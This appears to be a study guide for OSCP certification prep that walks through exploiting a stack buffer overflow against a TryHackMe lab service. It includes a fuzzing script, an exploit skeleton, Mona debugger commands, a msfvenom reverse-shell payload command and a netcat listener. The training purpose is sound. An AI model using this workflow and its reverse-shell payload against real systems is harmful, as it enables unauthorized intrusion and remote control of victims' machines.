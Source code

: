 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

* Step 1: Ensure Mona is installed in Immunity Debugger

* Step 2: Launch Immunity Debugger, open relevant application, and run the application

* Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

* Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
* Step 5: Create exploit.py skeleton:
 
 Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
* Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

* Step 7: Paste output from Step 6 into payload variable of exploit.py
  
* Step 8: Restart application in Immunity, Run exploit.py from attack machine
 
* Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
 *PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*
 

* Step 10: Set offset variable of exploit.py as the offset found in Step 9
 
* Step 11: Set retn variable to "BBBB" in exploit.py

* Step 12: Restart application in Immunity; Run exploit.py
  
* Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
* Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Step 15: Run Bad Characters Script

* Step 16: Paste Bad Characters output into payload variable of exploit.py

* Step 17: Re-open application in Immunity but do not run it

* Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

* Step 19: Start application in Immunity; Run exploit.py on attack machine

* Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

* Step 21: Remove first bad character in the list in Step 19 from payload variable in exploit.py

* Step 22: Reopen Application but do not run it

* Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

* Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

* Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb [BAD-CHARACTERS]
```

* Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

* Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

* Step 28: Paste generated payload into payload variable of exploit.py

* Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

* Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

* Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

* Step 32: Check listener, it should have a shell

## Reference

* https://tryhackme.com/room/bufferoverflowprep#
